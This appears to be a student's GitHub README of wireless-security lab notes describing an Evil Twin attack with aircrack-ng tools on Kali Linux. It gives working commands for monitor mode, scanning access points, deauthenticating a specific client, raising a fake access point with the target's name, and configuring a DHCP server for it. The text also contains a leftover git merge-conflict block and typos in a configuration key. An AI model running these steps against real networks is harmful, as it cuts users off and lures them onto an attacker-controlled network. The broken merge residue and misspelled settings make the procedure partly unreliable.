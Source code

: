# 前言

仅供参考,此project为学习之用,了解破解流程,学习无线安全

system : kali linux

software : aiicrack-ng

## Task2 

Evil Twin AP Attack: Set up a fake AP impersonating the target AP, and force target AP users to connect to it.

### 1. start wireless card monitor mode 

```
airmon-ng start wlan0
```

(wlan0 is the port of the wireless network card,it can be check by inputing `ifconfig` or `iwconfig`)

### 2. checking wireless AP(access point)

```
airodump-ng wlan0mon
```
(the prot been changed to wlan0mon after starting monitor mode)

this command can list all the information about AP ,Station and the traffic between them

you can see the name in the table 

BSSID : the MAC address of the AP

PWR : Signal strength

Beacons : one of the management frames, theo purpose of it is to transmit periodically, they serve to announce the presence of a wireless LAN and to synchronise the members of the service set.

Data : the throughput of the AP 

CH : channel

ENC : Encrept protocol 

ESSID : the name of AP

#### in case the channel will change over time,set the stable channel 
```
airodump-ng -c 11 -i wlan0 --bssid C4:71:54:23:2A:AE 
```

-c : channel number ,in this case , i choose 11

-i : choose the card to monitor 

--bssid : the MAC address of target AP

this command only show the traffic between client and target AP

## 3. attack target by using aireplay-ng
```
aireplay-ng -0 0 -a C4:71:54:23:2A:AE -c EC:D0:9F:87:DD:6F  wlan0mon
```

-0 : Conflict attack mode , follow by the attack times , 0 represent all the times

-a : the MAC of AP  , this can be captured from the `airodump-ng wlan0mon`

-c : the client that connect to AP legally. if not spcecif which client , it will disconnect all the clients which connect to this WI-FI

<<<<<<< HEAD
## 4. Set up a fake AP impersonating the target AP
=======
the client will be disconnected from the AP we input above 
>>>>>>> 04935ebf4a4be8179254a08752a48a98cbff9630

```
airbase-ng -a AA:AA:AA:AA:AA:AA --essid 'BeautifulSoup' -c 11 wlan0mon
```

-a :set up MAC address 

-essid : the name of AP ,this should be same as the target WI-FI

-c : channel 11

###  DHCP server 

1. install DHCP server

```
sudo apt install -y isc-dhcp-server
```
2.modify DHCP conf file

type the command below in your terminal

```
vi /etc/dhcp/dhcpd.conf
```
change the content or uncomment the content as follow

```
authoritative;
default-lease-wime 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.130 192.168.1.140;
}
```

